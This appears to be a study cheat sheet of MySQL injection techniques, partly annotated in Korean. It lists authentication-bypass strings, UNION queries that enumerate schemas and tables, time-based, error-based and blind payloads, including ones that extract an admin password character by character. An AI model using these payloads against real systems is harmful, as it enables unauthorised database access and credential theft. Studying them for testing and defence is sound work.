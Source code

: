# SQL injection

### Express string   
select admin;   
select 'ad''min'; -> ad'min   
select 'ad' 'min'; -> admin   
select 0x6162; -> ab   
select char(0x61, 0x62); -> ab   
select 0b110000101100010; -> ab   
select concat(char(0x61),char(0x62)); -> ab   
select mid(@@version,12,1); -> n 가젯   
select unhex(unhex(36313632)); -> ab   
<hr>

### Useful Functions
* string   
  * substring(), substr(), mid() # select mid('admin',3,2); -> mi   
  * left() # select left('admin',2); -> ad
  * right() # select right('admin',2); -> in
  * concat() # select concat('ad','min'); -> admin
  * group_concat() # select group_concat('ad','min'); -> admin
  * instr() # select instr('hi\~\~! hello!!!','hello'); -> 7
  * length() # select length('hello!'); -> 6
  * lpad() # select lpad('admin',1,1)='a'; -> TRUE
  * rpad() # select rpad('admin',1,1)='a'; -> True
  * ord() # select ord('a'); -> 97
  * ascii() # select ascii('a'); -> 97
  * hex() # select hex('a'); -> 0x61
  * char() # select char(0x61); -> a
* typecast
  * convert() # select convert('admin',binary(1)); -> a
  * cast() # select cast('admin' as char(1)); -> a
* etc
  * version() # select version(); -> 5.7.31-0ubuntu0.16.04.1 
  * user() # select user(); -> user@localhost
  * schema(), database() #select schema(); -> database_name
  * sleep() # select sleep(3); -> 1 row in set (3.00 sec)
<hr>

### Basic SQL Injection
'   
' or '1==1'#   
' or '1'='1   
' or 1=1#   
"or""="";#
<hr>

### Union SQL Injection
union select schema_name from information_schema.schemata;   
union select table_name from information_schema.tables where table_schema="db_schema";   
union select table_name from information_schema.tables where table_schema=database();   
union select column_name from information_schema.columns where table_name="table_name";
<hr>

### Time-based SQL Injection
select 'a'='a' and sleep(1); # 1 row in set (1.00 sec)   
select 'a'='b' and sleep(1); # 1 row in set (0.00 sec)   
select 'a'='a' and benchmark(10000000,md5('a')); // 1 row in set (3.017 sec)   
select 'a'='b' and benchmark(10000000,md5('a')); // 1 row in set (1.565 sec)   
<hr>

### Error-based : Data extraction with error message
select * from users union select foo(); # FUNCTION test.foo does not exist   
select * from users where exp(\~id); # DOUBLE value is out of range in 'exp(\~\`test\`.\`users\`.\`id\`)'   
select * from users where extractvalue(1,concat(0x3a,version())); #XPATH systax error: '10.4.6-MariaDB'   
<hr>

### Error-based : Blind SQL Injection
서브 쿼리에서 2개 이상의 row를 리턴하면 에러가 발생하는 점을 이용해서 공격   
select if('a'='b',1,(select 1 union select 2)); # error -> Subquery returns more than 1 row
select if('a'='a',1,(select 1 union select 2)); ok   
select case when 1=1 then (select 1 union select 2) else 1 end; # error   
select case when 1=0 then (select 1 union select 2) else 1 end; # ok   

BIGINT overflow   
select ~0+(select 'a'='a'); # error -> ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '~0 + ('a' = 'a')'   
select ~0+(select 'a'='b'); # ok   

cot함수 인자로 False가 들어가면 에러가 발생하는 것을 이용해서 공격
select cot(1=0); # error (DOUBLE value is out of range in 'cot(1 = 0)')   
select cot(1=1); # ok   

order by 뒤에 숫자 늘리면서 에러로 컬럼 수 파악   
select * from users order by \[컬럼 개수\]; # 컬럼 개수 늘려가면서 에러로 개수 파악.  
select * from users order by 1; # ok   
select * from users order by 2; # ok   
select * from users order by 3; # error -> users 테이블의 컬럼 개수는 2개인 것   
<hr>

### Blind SQL Injection
Binary Search   
select * from users where username='admin' and ascii(substr(password,1,1))>79;   
Bit 연산   
select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;   
select * form users where username='admin' and substr(bin(ord(password)),2,1)=1;   
<hr>

### Filter Bypass
[Filter Bypass](https://github.com/zzsla/security/blob/main/cheat_sheet/SQL%20injection/Filter%20Bypass.md)
